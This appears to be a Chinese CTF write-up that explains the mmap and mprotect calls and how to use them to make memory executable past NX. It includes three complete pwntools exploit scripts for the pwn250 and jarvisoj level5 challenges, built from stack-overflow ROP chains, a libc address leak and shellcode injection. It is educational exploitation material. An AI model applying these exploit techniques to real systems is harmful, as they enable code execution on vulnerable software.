








# mmap

mmap函数的用法


```
mmap将一个文档或者其它对象映射进内存。文档被映射到多个页上，如果文档的大小不是所有页的大小之和，最后一个页不被使用的空间将会清零。mmap在用户空间映射调用系统中作用很大。
头文档 <sys/mman.h>

void* mmap(void* start,size_t length,int prot,int flags,int fd,off_t offset);
第一个参数：分配新内存的地址
第二个参数：新内存的长度（0x1000的倍数），长度单位是字节，不足一内存页按一内存页处理
第三个参数：期望的内存保护标志，不能与文档的打开模式冲突。
			PROT_EXEC（可执行）在内存中用4来表示
			PROT_READ（可读）在内存中用1来表示
			PROT_WRITE（可写）在内存中用2来表示
			PROT_NONE（不可访问）在内存中用0来表示
第四个参数：映射的类型
			MAP_FIXED（）在内存中用10来表示
			MAP_SHARED（）在内存中用1来表示
			MAP_PRIVATE（）在内存中用2来表示
			MAP_NORESERVE（）在内存中用4000来表示
			MAP_LOCKED（）在内存中用2000来表示
第五个参数：文档描述符，可设为0
第六个参数：如果为文档映射，则此处代表定位到文档的那个位置，然后开始向后映射。

函数返回值：
	若该函数执行成功，mmap()返回被映射区的指针，失败时返回MAP_FAILED（-1）
```

在nx保护开启的情况下，我们依然可以通过mmap来申请出一段有读写执行权限的内存，通常mmap(target_addr,0x1000,7,34,0,0)，这里target_addr需要页对齐也就是0x1000的整数倍，若不对齐，申请到的起始地址将不是target_addr。

写个简单的程序验证一下，可以看到申请到的内存具有rwx权限，并且函数返回值为mmap到的内存的起始地址。

```c
#include<stdio.h>
#include <sys/mman.h>
int main(){
	void *addr;
	addr = 0xdead1000;
	mmap(addr,0x1000,7,34,0,0);
	return 0;
}
```




通过一道例题再操练一下

https://github.com/gloxec/record/blob/master/ssctf_2017/pwn250

基本信息：静态链接、32位、nx开启



print中memcpy导致栈溢出





思路：调用mmap申请一块有rwx权限的内存，往里面写shellcode，最终返回到shellcode上

exp

```python
from pwn import*
context.log_level = 'debug'
context.binary = './pwn250'
p = process('./pwn250')
elf = ELF('./pwn250')
mmap_addr = elf.sym['mmap']
main_addr = elf.sym['main']
read_addr = elf.sym['read']
newaddr=0xbeef1000

p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(mmap_addr)+p32(main_addr)+p32(newaddr)+p32(1024)+p32(7)+p32(34)+p32(0)+p32(0)
p.sendafter(']',payload)

p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(read_addr)+p32(newaddr)+p32(0)+p32(newaddr)+p32(0x100)
p.sendafter(']',payload)

#gdb.attach(p,'b print')
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)

p.interactive()
```

# mprotect

函数原型

```
#include <sys/mman.h>
int mprotect(void *addr, size_t len, int prot)

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。 

第一个参数：开始地址（该地址应是0x1000的倍数，以页方式对齐）
第二个参数：指定长度（长度也应该是0x1000的倍数）
第三个参数：指定属性

如果执行成功，则返回0；如果执行失败，则返回-1，并且设置errno变量，说明具体因为什么原因造成调用失败。错误的原因主要有以下几个：
1）EACCES
该内存不能设置为相应权限。这是可能发生的，比如，如果你 mmap(2) 映射一个文件为只读的，接着使用 mprotect() 标志为 PROT_WRITE。

2）EINVAL
start 不是一个有效的指针，指向的不是某个内存页的开头。

3）ENOMEM
内核内部的结构体无法分配。

4）ENOMEM
进程的地址空间在区间 [start, start+len] 范围内是无效，或者有一个或多个内存页没有映射。 

如果调用进程内存访问行为侵犯了这些设置的保护属性，内核会为该进程产生 SIGSEGV （Segmentation fault，段错误）信号，并且终止该进程。

```


写个简单的程序验证一下，可以看到的原本不是rwx权限的页具有了rwx权限

```c
#include<stdio.h>
#include <sys/mman.h>
int main(){
	void *addr;
	addr = 0x00400000;
	mprotect(addr,0x1000,7);
	return 0;
}
```




下面用mprotect来做刚刚那道题目

思路，把bss段的权限用mprotect改为rwx，把shellcode写到bss段上再返回到shellocde上。

```python
from pwn import*
context.log_level = 'debug'
context.binary = './pwn250'
p = process('./pwn250')
elf = ELF('./pwn250')
mprotect_addr = elf.sym['mprotect']
main_addr = elf.sym['main']
read_addr = elf.sym['read']
bss_addr = 0x080ec000


p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(mprotect_addr)+p32(main_addr)+p32(bss_addr)+p32(0x1000)+p32(7)
p.sendafter(']',payload)

p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(read_addr)+p32(bss_addr)+p32(0)+p32(bss_addr)+p32(0x100)
p.sendafter(']',payload)

#gdb.attach(p,'b print')
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)

p.interactive()
```


再穿插一道例题**jarvisoj level5**

动态链接，64位栈溢出，题目描述是不能执行system或execve，那么我们用mprotect来做



exp

```python
from pwn import*
context.log_level = 'debug'
context.arch = 'amd64'
def pr(a,addr):
	log.success(a+'====>'+hex(addr))

def csu_payload(got_addr,arg1,arg2,arg3,ret_addr):
	payload = 'a'*0x88
	payload += p64(0x4006AA)
	payload += p64(0)+p64(1)+p64(got_addr)+p64(arg3)+p64(arg2)+p64(arg1)
	payload += p64(0x400690)+'a'*56 + p64(ret_addr)
	return payload
def ropchain(target,arg1,arg2,arg3,ret_addr):
	payload = 'a'*0x88
	payload +=p64(prdi_ret)+p64(arg1)
	payload +=p64(prsi_ret)+p64(arg2)
	payload +=p64(prdx_ret)+p64(arg3)
	payload +=p64(target)+p64(ret_addr)
	return payload
p =process('./level3_x64')
elf = ELF('./level3_x64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

prdi_ret = 0x4006B3
prsi_ret = 0x23eea
prdx_ret = 0x1b96
write_got = elf.got['write']
write_plt = elf.plt['write']
read_got = elf.got['read']
vuln = elf.sym['vulnerable_function']
bss = 0x600000+0xb00

payload = csu_payload(write_got,1,write_got,8,vuln)
p.sendafter('Input:\n',payload)

libcbase = u64(p.recv(8)) - libc.sym['write']
mprotect = libcbase + libc.sym['mprotect']
prsi_ret += libcbase
prdx_ret += libcbase 
pr('libcbase',libcbase)

#gdb.attach(p,'b *0x400618')
payload = ropchain(mprotect,0x600000,0x1000,7,vuln)
p.sendafter('Input:\n',payload)

payload = csu_payload(read_got,0,bss,0x200,bss)
p.sendafter('Input:\n',payload)


shellcode = asm(shellcraft.sh())
p.send(shellcode)

p.interactive()


```

本来想用mmap试试，发现r9相关的rop有点难利用也懒得试了，老懒狗了。





参考文章

https://www.dazhuanlan.com/2019/12/05/5de804217ca51/

https://blog.csdn.net/roland_sun/article/details/33728955